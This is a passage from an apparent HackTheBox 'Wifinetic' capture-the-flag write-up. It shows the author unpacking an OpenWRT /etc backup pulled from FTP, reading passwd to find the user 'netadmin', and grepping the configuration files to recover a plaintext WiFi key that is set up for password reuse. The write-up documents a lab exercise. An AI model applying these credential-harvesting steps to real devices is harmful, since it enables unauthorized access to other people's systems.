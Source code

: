 In the ftp files is a back archive from that OpenWRT device. Downloading and extracting it reveals the `/etc` directory from the device:
```
┌──(kali㉿kali)-[~/…/hackthebox/wifinetic/ftp/etc]
└─$ ls -al
total 72
drwxr-xr-x 7 kali kali 4096 Sep 11 11:23 .
drwxr-xr-x 3 kali kali 4096 Sep 21 10:36 ..
drwxr-xr-x 2 kali kali 4096 Sep 11 11:22 config
drwxr-xr-x 2 kali kali 4096 Sep 11 11:22 dropbear
-rw-r--r-- 1 kali kali  227 Jul 26 06:08 group
-rw-r--r-- 1 kali kali  110 Apr 27 16:28 hosts
-rw-r--r-- 1 kali kali  183 Apr 27 16:28 inittab
drwxr-xr-x 2 kali kali 4096 Sep 11 11:22 luci-uploads
drwxr-xr-x 2 kali kali 4096 Sep 11 11:22 nftables.d
drwxr-xr-x 3 kali kali 4096 Sep 11 11:22 opkg
-rw-r--r-- 1 kali kali  420 Jul 26 06:09 passwd
-rw-r--r-- 1 kali kali 1046 Apr 27 16:28 profile
-rw-r--r-- 1 kali kali  132 Apr 27 16:28 rc.local
-rw-r--r-- 1 kali kali    9 Apr 27 16:28 shells
-rw-r--r-- 1 kali kali  475 Apr 27 16:28 shinit
-rw-r--r-- 1 kali kali   80 Apr 27 16:28 sysctl.conf
-rw-r--r-- 1 kali kali  745 Jul 24 15:15 uhttpd.crt
-rw-r--r-- 1 kali kali  121 Jul 24 15:15 uhttpd.key

┌──(kali㉿kali)-[~/…/hackthebox/wifinetic/ftp/etc]
└─$ 
```

## OpenWRT Backup
In the backup are configuration files for the services from the OpenWRT device like for example ssh (dropbear) or http (uhttpd). As well the `etc/passwd`, but without the `etc/shadow`. But we find a user in there:
```
┌──(kali㉿kali)-[~/…/hackthebox/wifinetic/ftp/etc]
└─$ cat passwd     
[...]
netadmin:x:999:999::/home/netadmin:/bin/false

┌──(kali㉿kali)-[~/…/hackthebox/wifinetic/ftp/etc]
└─$ 
```

Since they are migrating the system, it is very likely that the user will be used again. But we still need a password.

Maybe there is something relevant in one of those config files:
```
┌──(kali㉿kali)-[~/…/hackthebox/wifinetic/ftp/etc]
└─$ grep -i -r pass *
config/rpcd:    option password '$p$root'
config/dropbear:        option PasswordAuth 'on'
config/dropbear:        option RootPasswordAuth 'on'
config/wireless:        option key 'VeRyUniUqWiFIPasswrd1!'
config/wireless:        option key 'VeRyUniUqWiFIPasswrd1!'
config/luci:    option passwd '/etc/passwd'
profile:export HOME=$(grep -e "^${USER:-root}:" /etc/passwd | cut -d ":" -f 6)
profile:There is no root password defined on this device!
profile:Use the "passwd" command to set up a new password

┌──(kali㉿kali)-[~/…/hackthebox/wifinetic/ftp/etc]
└─$ 
```
